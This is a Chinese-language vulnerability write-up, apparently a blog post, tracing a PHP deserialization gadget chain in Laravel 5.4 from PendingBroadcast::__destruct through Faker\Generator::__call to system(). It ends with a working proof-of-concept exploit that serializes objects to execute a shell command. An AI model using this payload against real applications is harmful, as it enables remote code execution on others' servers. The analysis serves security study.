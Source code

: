 先从入口点下手,全局搜索`__destruct`方法

最后定位到一个`__destruct()`方法

```
laravel5-4\vendor\laravel\framework\src\Illuminate\Broadcasting\PendingBroadcast.php
```

![image-20210630224429703](images/7.png)

下一步就是全局寻找`__call`方法或者`dispatch`方法

```
在vendor\fzaninotto\faker\src\Faker\Generator.php下找到了一个可用的__call()方法
```

![image-20210630225012502](images/8.png)

跟进`format()`方法

![image-20210630225417430](images/9.png)

好熟悉的东西这和YII2的反序列化漏洞一样诶

```
在YII里,我们是通过控制$this->formatters[$formatter]的值调用一个无参函数run()

而这里我们可以控制$this->formatters=['dispatch'=>'system']来对数组中的'dispatch'赋值,访问$this->formatters['dispatch']的时候就是调用'system'函数来rce
```

![image-20210701002852610](images/10.png)

```
call_user_func_array()需要第二个参数是一个数组
```

```
但是__call方法返回的第二个参数是个数组,所以我们的$this->event='whoami就可以执行,不需要再赋值为数组
执行时就是system('whoami')
```

拿exp打一下呢

```
<?php
namespace Illuminate\Broadcasting
{
	use Faker\Generator;
	class PendingBroadcast{
		protected $event;
		protected $events;
		public function __construct()
		{
			$this->events=new Generator();
			$this->event='whoami';
		}
	}
	$a=new PendingBroadcast();
	echo urlencode(serialize($a));
}
namespace Faker{
	class Generator{
		protected $formatters = array();
		public function __construct()
		{
			$this->formatters=['dispatch'=>'system'];
		}
	}
}
```